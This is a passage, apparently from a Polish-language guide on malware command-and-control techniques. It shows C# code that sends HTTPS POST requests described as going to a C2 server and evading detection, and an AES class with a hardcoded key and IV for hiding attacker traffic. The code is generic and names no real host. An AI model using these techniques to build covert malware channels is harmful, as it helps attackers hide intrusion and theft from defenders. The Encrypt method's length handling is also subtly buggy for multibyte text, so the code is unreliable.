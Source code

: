         public async Task<string> SendEncryptedRequest(string url, string data)
        {
            var content = new StringContent(data, System.Text.Encoding.UTF8, "application/json");
            HttpResponseMessage response = await client.PostAsync(url, content);
            response.EnsureSuccessStatusCode();
            string responseBody = await response.Content.ReadAsStringAsync();
            return responseBody;
        }
    }
    ```
    - **Opis:** W powyższym przykładzie, `HttpClient` jest używany do wysyłania zaszyfrowanych żądań POST do serwera C2 za pośrednictwem HTTPS. Dane są przesyłane w formacie JSON, co jest powszechnie stosowane i trudne do wykrycia jako złośliwe.

- **Custom Encryption Algorithms:**
  - **Opis:** Oprócz standardowych protokołów szyfrowania, atakujący mogą implementować własne algorytmy szyfrujące, aby dodatkowo ukryć komunikację. Może to obejmować szyfrowanie symetryczne (np. AES) lub asymetryczne (np. RSA) w celu zabezpieczenia danych.
  - **Przykład Implementacji:**
    ```csharp
    using System;
    using System.Security.Cryptography;
    using System.Text;

    public class CustomEncryption
    {
        private static readonly byte[] key = Encoding.UTF8.GetBytes("0123456789abcdef"); // 16-byte key for AES
        private static readonly byte[] iv = Encoding.UTF8.GetBytes("abcdef9876543210");  // 16-byte IV for AES

        public static string Encrypt(string plainText)
        {
            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = iv;
                ICryptoTransform encryptor = aesAlg.CreateEncryptor(aesAlg.Key, aesAlg.IV);
                byte[] encrypted = encryptor.TransformFinalBlock(Encoding.UTF8.GetBytes(plainText), 0, plainText.Length);
                return Convert.ToBase64String(encrypted);
            }
        }

        public static string Decrypt(string cipherText)
        {
            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = iv;
                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);
                byte[] buffer = Convert.FromBase64String(cipherText);
                byte[] decrypted = decryptor.TransformFinalBlock(buffer, 0, buffer.Length);
                return Encoding.UTF8.GetString(decrypted);
            }
        }
    }
    ```
    - **Opis:** W tym przykładzie, używany jest algorytm AES do szyfrowania i deszyfrowania danych. Klucz i wektor inicjalizacyjny (IV) są statycznie zdefiniowane, co w praktyce powinno być dynamicznie generowane i bezpiecznie przechowywane, aby zwiększyć bezpieczeństwo komunikacji.
